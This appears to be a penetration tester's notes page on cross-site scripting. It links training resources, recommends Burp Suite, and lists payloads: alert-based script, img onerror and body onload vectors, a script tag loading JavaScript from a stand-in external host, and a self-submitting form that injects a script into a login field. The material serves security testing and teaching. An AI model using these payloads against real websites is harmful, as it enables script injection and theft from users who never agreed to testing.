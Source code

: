 
## Resources

* PortSwigger WebAcademy - XSS (excellent reading and labs) [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
* OWASP - XSS [https://owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
* DomGoat - DOM Security Learning Platform [https://domgo.at/cxss/sinks](https://domgo.at/cxss/sinks)
* Pentesterlab - As always, fantastic labs on every web attack [https://pentesterlab.com](https://pentesterlab.com)

## Tools

Plain old Burpsuite is the way to go. The built in scanner is great at finding all types of XSS. Add in the  [Reflected Parameters burp extension](https://portswigger.net/bappstore/8e8f6bb313db46ba9e0a7539d3726651) to help identify some potentially XSS that might be too hard for the scanner.

## Payloads

##### Super basic payloads

These are your go-to payloads when you don't think there is any filtering at all

```
<script>alert(document.domain)</script>
<SCRIPT SRC=http://yoursite.com/externalscript.js></SCRIPT>
<img src=x onerror="alert(document.domain)">
<body onload=alert(1)>
```

##### PortSwigger XSS Cheatsheet

Your first stop when it comes to general XSS payloads (if the super basic ones dont work) is PortSwigger's XSS cheat sheet [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). This is a regularly maintained repository of all kinds of XSS vectors, with contributions from countless security researchers. These are the kind of payloads you will use after you find that you have reflection, and are trying to defeat some kind of XSS filter. 

##### POST-based payloads

*With POST-based payloads, you need to host them on your site and trigger a request to another site.*

Here is an example of a generic attacker-site HTML page using a self-submitting form:

```
<form name=TheForm action=https://vulnerable-site.com/login method=post>
<input type=hidden name=username value='"a><script>alert(document.domain)</script>'>
<input type=hidden name=password value=test>
<input type=hidden name=login value=Login>
</form>
<script>
document.TheForm.submit();
</script>
```
